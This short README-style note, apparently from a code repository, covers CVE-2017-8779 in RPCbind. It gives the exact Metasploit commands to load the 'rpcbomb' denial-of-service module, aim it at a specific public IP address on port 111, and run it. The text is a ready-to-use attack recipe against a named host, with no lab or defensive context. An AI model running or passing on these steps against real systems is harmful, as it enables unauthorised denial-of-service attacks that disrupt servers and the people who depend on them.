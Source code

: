 

CVE-2017-8779

RPCbind port 

Open the Metasploit framework and type 'use auxiliary/dos/rpc/rpcbomb'
set RHOSTS to 149.56.38.19 and RPORT to 111
Type 'exploit'